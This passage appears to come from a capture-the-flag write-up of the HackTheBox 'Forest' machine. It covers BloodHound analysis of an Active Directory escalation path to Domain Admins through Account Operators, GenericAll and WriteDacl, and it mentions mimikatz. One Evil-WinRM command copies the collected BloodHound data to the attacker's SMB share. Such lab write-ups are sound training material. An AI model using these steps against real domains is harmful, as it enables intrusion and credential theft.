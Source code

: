 Lets copy the ingestors output to our local machine,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> copy 20220327051724_BloodHound.zip \\10.10.14.4\MONISH\
```

Now analysing the ```BloodHound``` output,

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/1.png" style="width:40%">
</center>

These are the components showed on the home page, lets find out the ```Domain Admins```,

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/2.png" style="width:40%">
</center>

Lets analyse the shortest path from our owned principal to the ```Administrator``` of this domain,

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/3.png" style="width:40%">
</center>

But, even though if we ```PS-Remote``` to the machine, we could not dump hashes using ```mimikatz``` of some compatibility issue

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/5.png" style="width:40%">
</center>

Here ```Service Accounts``` is a member of ```Privileged IT Accounts```

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/6.png" style="width:40%">
</center>

And ```Privileged IT Accounts``` is also a member of ```Remote Management Users``` and ```Account Operators```

Using ```Remote Management Users``` we could add users to enable ```PS-Remoting```

And we also have access over ```Account Operators```

<center>
<img src="https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/7.png" style="width:40%">
</center>

If you see in this graph, from the shortest path to ```Domain Admins``` can also be done by ```WriteDacl``` ACL of ```Exchange Windows Permission```

![Image](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Forest/pics/9.png)

And we also have ```GenericAll``` ACL for ```Exchange Windows Permission``` from ```Account Operators```
